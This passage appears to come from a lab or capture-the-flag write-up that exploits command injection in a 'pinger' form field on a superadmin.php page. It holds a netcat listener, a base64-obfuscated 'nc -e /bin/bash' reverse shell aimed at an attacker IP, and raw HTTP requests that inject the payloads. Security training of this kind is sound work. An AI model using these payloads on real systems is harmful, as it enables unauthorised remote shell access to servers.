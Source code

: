 > Yes! We are able to bypass the filter.
{: .prompt-info }

Now lets use this technique to create a simple `nc` reverse shell.

Start listener on attacker machine
```bash
$ nc -lvp 80                                                  
listening on [any] 80 ...
```

Inject reverse shell payload  
netcat payload: `nc -e /bin/bash 192.168.45.223 80`  
encoded payload: `|echo "bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDUuMjIzIDgwCg==" |base64 -d`
```http
POST /superadmin.php HTTP/1.1
Host: 192.168.192.15
Content-Length: 64
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.192.15
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.192.15/superadmin.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

pinger=127|`echo%20%22bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDUuMjIzIDgwCg==%22%20|base64%20-d`&submitt=Submit
```

> Unfortunately we do not get a connection. Maybe `nc` is not available.
{: .prompt-danger }

payload: `ls -lsah /bin`  
Lets inspect which binaries are available on the target system.
```http
POST /superadmin.php HTTP/1.1
Host: 192.168.192.15
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.192.15
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.192.15/superadmin.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

pinger=127|`echo%20%22bHMgLWxzYWggL2Jpbgo=%22%20|base64%20-d`&submitt=Submit

HTTP/1.1 200 OK
Date: Fri, 04 Aug 2023 17:34:34 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 9517
Connection: close
Content-Type: text/html; charset=UTF-8

```